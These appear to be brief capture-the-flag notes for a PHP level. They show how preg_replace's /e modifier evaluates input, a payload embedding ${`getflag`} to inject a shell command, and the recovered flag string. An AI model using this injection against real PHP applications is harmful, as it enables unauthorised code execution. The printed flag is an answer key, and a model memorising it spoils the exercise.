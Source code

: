 PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

{}   []   ./  @   ([x(.*)])   ("2")

file_get_contents($y) <--- this is a php function that reads the content of the parameter "Arg[1]" in our case, nothing special with it
preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);  <--- this is the magic sauce

([x(.*)])   y("\2")



cho "/(\[x (\${\`getflag\`})\])/e" > /tmp/out6       <----------------->

flag06 : wiok45aaoguiboiki2tuin6ub